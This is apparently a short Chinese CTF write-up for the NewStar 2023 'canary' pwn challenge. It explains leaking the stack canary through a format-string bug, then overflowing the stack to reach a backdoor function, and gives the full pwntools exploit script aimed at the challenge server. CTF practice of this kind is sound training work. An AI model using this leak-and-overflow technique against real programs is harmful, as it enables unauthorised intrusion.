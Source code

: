 ```yaml
---
title: newstar2023 week2 - canary
date: 2023/10/1 12:00:00
tags:
    - noob
excerpt: 利用格式化字符串漏洞获取canary值，栈溢出后跳转至后门函数。
---
```


## 文件分析

下载`canary`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

观察程序发现后门函数，且没有pie，首先利用格式化字符串漏洞打印出canary的值，
然后栈溢出补上canary后跳转到后门函数即可

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 26476)

# payload 1
sh.sendline(b'%11$p') # get canary

sh.recvuntil(b'gift:\n') # skip
canary = int(sh.recvline()[:18], 16)

# payload 2
backdoor = 0x00401262
sh.sendline(b'0'*0x28 + p64(canary) + b'0'*8 + p64(backdoor))

sh.interactive()
```

Done.
